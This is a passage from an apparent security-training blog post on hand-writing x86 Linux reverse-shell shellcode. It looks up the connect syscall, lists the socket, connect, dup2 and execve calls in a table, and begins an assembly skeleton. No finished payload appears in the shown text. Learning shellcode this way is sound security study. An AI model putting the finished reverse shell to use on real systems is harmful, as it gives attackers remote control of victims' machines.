 ```
```

Compared to the bind shell, the only new system call we can see here is the connect() function. Before we start, let’s make sure we have all the required information using the same approach as last time:

```
root@kali:~/Documents/revshell# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep connect
#define __NR_connect 362
```

```
root@kali:~/Documents/revshell# man 2 connect
<snipped>
SYNOPSIS
       #include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int connect(int sockfd, const struct sockaddr *addr,
                   socklen_t addrlen);
<snipped>
RETURN VALUE
       If  the connection or binding succeeds, zero is returned.  On error, -1
       is returned, and errno is set appropriately.
```

We can now create our table of system calls required for the reverse shell:

| System Call | C Definition | Return Value | Syscall Number |
|---|:---|:---|:---|
| socket    | int socket(int domain, int type, int protocol); | File descriptor for the new socket. | 359 (0x167)    |
| connect   | int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen); | n/a | 362 (0x16a) |
| dup2      | int dup2(int oldfd, int newfd); | n/a | 63 (0x3f) |
| execve    | int execve(const char *pathname, char *const argv[], char *const envp[]); | n/a | 11 (0xb) |  
{:.mbtablestyle}

## Crafting our Reverse Shellcode
Similar to our bind shell, we first want to create the skeleton of our script. Making sure we have our entry point and clean registers:

```
global    _start
section .text

_start:
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx
```
